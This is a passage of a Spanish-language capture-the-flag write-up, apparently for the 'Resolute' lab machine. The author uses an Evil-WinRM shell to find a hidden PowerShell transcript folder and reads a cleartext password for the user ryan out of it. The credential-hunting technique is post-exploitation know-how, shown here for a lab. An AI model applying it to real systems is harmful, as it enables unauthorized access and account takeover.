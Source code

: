 - Podemos ver que es lo que contiene la carpeta **PSTranscripts**.

```bash
*Evil-WinRM* PS C:\PSTranscripts> dir -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt


*Evil-WinRM* PS C:\PSTranscripts\20191203>
```

- Encontramos una contraseña en el **.txt** que encontramos del usuario `ryan:Serv3r4Admin4cc123!`.

```bash
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
```